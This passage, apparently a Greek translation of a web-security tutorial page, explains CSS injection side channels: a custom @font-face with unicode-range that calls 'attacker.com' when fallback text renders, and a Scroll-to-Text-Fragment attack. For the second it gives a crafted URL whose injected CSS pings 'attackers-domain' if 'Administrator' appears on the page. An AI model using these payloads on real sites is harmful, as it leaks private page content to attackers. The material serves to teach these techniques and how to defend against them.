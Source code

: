 ```html

<object id="poc0" data="http://192.168.0.1/favicon.ico">A</object>
</body>
</html>
```

1. **Χρήση Προσαρμοσμένης Γραμματοσειράς**:
   * Μια προσαρμοσμένη γραμματοσειρά ορίζεται χρησιμοποιώντας τον κανόνα `@font-face` μέσα σε ένα `<style>` tag στην ενότητα `<head>`.
   * Η γραμματοσειρά ονομάζεται `poc` και ανακτάται από έναν εξωτερικό τερματικό (`http://attacker.com/?leak`).
   * Η ιδιότητα `unicode-range` ορίζεται σε `U+0041`, στοχεύοντας το συγκεκριμένο Unicode χαρακτήρα 'A'.
2. **Στοιχείο Αντικειμένου με Εναλλακτικό Κείμενο**:
   * Ένα στοιχείο `<object>` με `id="poc0"` δημιουργείται στην ενότητα `<body>`. Αυτό το στοιχείο προσπαθεί να φορτώσει ένα πόρο από το `http://192.168.0.1/favicon.ico`.
   * Το `font-family` γι' αυτό το στοιχείο ορίζεται σε `'poc'`, όπως έχει οριστεί στην ενότητα `<style>`.
   * Αν ο πόρος (`favicon.ico`) αποτύχει να φορτωθεί, το εναλλακτικό περιεχόμενο (το γράμμα 'A') μέσα στην ετικέτα `<object>` εμφανίζεται.
   * Το εναλλακτικό περιεχόμενο ('A') θα αποτυπωθεί χρησιμοποιώντας την προσαρμοσμένη γραμματοσειρά `poc` αν ο εξωτερικός πόρος δεν μπορεί να φορτωθεί.

### Στυλιστική Καθοδήγηση προς το Κομμάτι Κειμένου Κύλισης

Η **`:target`** ψευδο-κλάση χρησιμοποιείται για να επιλέξει ένα στοιχείο που έχει στοχευτεί από ένα **κομμάτι URL**, όπως καθορίζεται στην [προδιαγραφή CSS Επιλογέων Επιπέδου 4](https://drafts.csswg.org/selectors-4/#the-target-pseudo). Είναι κρίσιμο να κατανοήσουμε ότι το `::target-text` δεν ταιριάζει με κανένα στοιχείο εκτός αν το κείμενο στοχεύεται ρητά από το κομμάτι.

Μια ανησυχία ασφαλείας προκύπτει όταν οι επιτιθέμενοι εκμεταλλεύονται το χαρακτηριστικό **Κομμάτι Κειμένου Κύλισης**, επιτρέποντάς τους να επιβεβαιώσουν την παρουσία συγκεκριμένου κειμένου σε μια ιστοσελίδα μέσω ενσωμάτωσης HTML. Η μέθοδος περιλαμβάνει την ενσωμάτωση ενός κανόνα CSS όπως αυτό:

```css
:target::before { content : url(target.png) }
```

Σε τέτοια σενάρια, εάν το κείμενο "Διαχειριστής" υπάρχει στη σελίδα, ο πόρος `target.png` ζητείται από τον διακομιστή, υποδεικνύοντας την παρουσία του κειμένου. Μια περίπτωση αυτής της επίθεσης μπορεί να εκτελεστεί μέσω ενός ειδικά δημιουργημένου URL που ενσωματώνει το ενθετωμένο CSS δίπλα σε ένα κομμάτι κώδικα κύλισης προς κείμενο:

```
http://127.0.0.1:8081/poc1.php?note=%3Cstyle%3E:target::before%20{%20content%20:%20url(http://attackers-domain/?confirmed_existence_of_Administrator_username)%20}%3C/style%3E#:~:text=Administrator
```

Εδώ, η επίθεση διαχειρίζεται την ενσωμάτωση HTML για τη μετάδοση του κώδικα CSS, με στόχο το συγκεκριμένο κείμενο "Διαχειριστής" μέσω του Scroll-to-text fragment (`#:~:text=Διαχειριστής`). Εάν το κείμενο βρεθεί, ο προσδιορισμένος πόρος φορτώνεται, σηματοδοτώντας αθέλητα την παρουσία του στον επιτιθέμενο.

Για τη μείωση του κινδύνου, πρέπει να ληφθούν υπόψη τα ακόλουθα σημεία:
